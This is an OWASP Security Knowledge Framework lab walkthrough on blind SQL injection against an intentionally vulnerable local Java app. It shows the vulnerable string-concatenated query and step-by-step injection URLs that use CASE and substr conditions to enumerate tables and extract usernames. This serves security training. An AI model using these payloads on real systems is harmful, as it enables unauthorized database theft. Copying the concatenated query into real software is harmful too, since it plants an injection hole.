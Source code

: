 # SQLI \(Blind\)

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:java-sqli-blind
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:java-sqli-blind
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

### Step1

The first step is to identify parameters which could be potentially used in an SQL query to communicate with the underlying database. In this example we find that the "/home" method grabs data by pageID and displays the content.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/SQLI-Blind/1.png)

```text
http://localhost:5000/home/1
```

### Step2

Now let's see if we can create an error by injecting a single quote

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/SQLI-Blind/2.png)

```text
http://localhost:5000/home/1'
```

However, it's still not possile we can't see this as the application shows a 404 Error page.

### Step3

Now we need to inject logic operators to check if the application is vulnerable to SQL Injection.

First, we inject a logical operator which is true \(or 1=1\). This should result in the application run as intended without errors.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/SQLI-Blind/3.png)

```text
http://localhost:5000/home/1 OR 1=1
```

After that we inject a logical operator which is false \(and 1=2\). This should result in the application returning an error.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/SQLI-Blind/4.png)

```text
http://localhost:5000/home/1 AND 1=2
```

By doing so we are sure the application has a SQL Injection vulnerability.

This is due to the fact that the user supplied input is being directly concatenated into the SQL query.

```java
public List<Page> getPage(String pageId){
    String sql = "SELECT pageId, title, content FROM pages WHERE pageId="+pageId;
    List<Page> pages = jdbcTemplate.query(sql, (resultSet, rowNum) -> new Page(resultSet.getInt("pageId"),resultSet.getString("title"), resultSet.getString("content")));
    return pages;
}
```

## Exploitation

Now that we know that the application is vulnerable for SQL injections we are going to use this vulnerability to read sensitive information from the database. This process could be automated with tools such as SQLMAP. However, for this example let's try to exploit the SQL injection manually.

### Step1

We need to determine which conditions are TRUE and FALSE for the application. By trial and error it's possible to determine the pageIDs 1,2 and 3 are valid, whereas 4 is not.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/SQLI-Blind/5.png)

```text
http://localhost:5000/home/1
```

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/SQLI-Blind/6.png)

```text
http://localhost:5000/home/4
```

#### Step 2

Now, we need to inject a IF condition, returning 1 for the TRUE cases and 4 for the FALSE ones.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/SQLI-Blind/7.png)

```text
http://localhost:5000/home/(select case when 1=1 then 1 else 4 end)
```

#### Step 3

Next step is to add more logic to our injection and starting to retrieve information from data tables. Remember we will never view the data we are retrieving from the DB in the page, but we will do it by logicaly testing if the data exists.

Let's check if the table users exists.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/SQLI-Blind/8.png)

```text
http://localhost:5000/home/(select case when tbl_name='users' then 1 else 4 end from sqlite_master where type='table')
```

Good news! As we didn't see an error, it means the table _users_ exists.

By testing different table names, we will receive an 404 error, indicating the table does not exist.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/SQLI-Blind/9.png)

### Step 4

Let's try to extract a valid user. Instead of having a dictionary of possible users to guess, we can check if the first letter of the first user contains the letter _a_.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/SQLI-Blind/10.png)

```text
http://localhost:5000/home/(select case when substr(UserName,1,1)='a' then 1 else 4 end from users limit 0,1)
```

The error indicates it's not the case. Let's try with the letter _A_. Remember, case matters.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/SQLI-Blind/11.png)

```text
http://localhost:5000/home/(select case when substr(UserName,1,1)='A' then 1 else 4 end from users limit 0,1)
```

Yes, it matches!

As initial guess, _Admin_ could be a possible user. So, let's test this theory:

```text
http://localhost:5000/home/(select case when substr(UserName,2,1)='d' then 1 else 4 end from users limit 0,1)
```

```text
http://localhost:5000/home/(select case when substr(UserName,3,1)='m' then 1 else 4 end from users limit 0,1)
```

```text
http://localhost:5000/home/(select case when substr(UserName,4,1)='i' then 1 else 4 end from users limit 0,1)
```

```text
http://localhost:5000/home/(select case when substr(UserName,5,1)='n' then 1 else 4 end from users limit 0,1)
```

We made it! None of the requests above returned _404 Error_, so this indicates _Admin_ is a valid value.

Now that you know the logic, you can extract all UserNames stored within this table.

Why not dumping the whole database?

Don't forget to play with Limit numbers to fetch more records.

## Additional sources

Please refer to the OWASP testing guide for a full complete description about SQL injection with all the edge cases over different platforms!

[https://www.owasp.org/index.php/Testing_for_SQL_Injection\_\(OTG-INPVAL-005\)](https://www.owasp.org/index.php/Testing_for_SQL_Injection_%28OTG-INPVAL-005%29)

SQLite Reference

[https://www.techonthenet.com/sqlite/sys_tables/index.php](https://www.techonthenet.com/sqlite/sys_tables/index.php)
